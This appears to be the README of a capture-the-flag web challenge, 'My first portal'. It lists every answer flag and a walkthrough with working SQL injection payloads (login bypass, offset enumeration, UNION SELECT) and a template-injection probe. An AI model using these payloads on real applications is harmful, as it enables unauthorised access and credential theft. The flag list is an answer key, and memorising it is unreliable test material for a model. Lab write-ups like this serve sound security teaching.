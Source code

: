 My first portal
===============

A series of simple web challenges.

Text
----
I was bored during covid so I decided to create a portal for my friends and I to talk over (who even
uses facebook?). My friends think I'm a bad coder so prove them wrong for me &#x1F643;

Flag format: `FLAG{number_...}`. Be sure to submit the right flag under the right question!

Flags
-----
- FLAG{0_jUsT_ch3ck1ng_th3t_y0u_aR3_r3ading_th3_c0mM3ntS_PyEW_SHVNtE}
- FLAG{1_i_suCc3ssFul1y_sQl_inJ3cted_l0g1n_hFjqJtqW-cQ}
- FLAG{2_pl81n_t3xt_0ffeNd3rS_T6RjMLt0y20}
- FLAG{3_un1ON_s3le3t_l3v3l_eQu3ls_admin_WmawnMIausw}
- FLAG{4_y0uV3_tRanSc3nded_sH3lL_AnD_t1Me_c6Rc-vuHsxI}

Walkthrough
-----------

### flag 0
HTML comments when you load up the admin page.

### flag 1
SQL inject the login page. Solution: `' OR 1=1 -- `

### flag 2
There is a profile page, which displays the username and passwords of the users in the system. By
SQLiing offset, we are able to get to our desired user. Solution: `' OR 1=1 LIMIT 1 OFFSET 3 -- `

### flag 3
We can use a union select. Solution: `' OR 1=0 UNION SELECT '1', '1', 'admin' -- `

### flag 4
The profile template is vulnerable to SSRF. This can be seen by injecting 
`' OR 1=0 UNION SELECT 'admin', '{{ config }}', 'admin' -- ` into the username field. We can then
use that to open and read the flag file. Solution: left to the reader.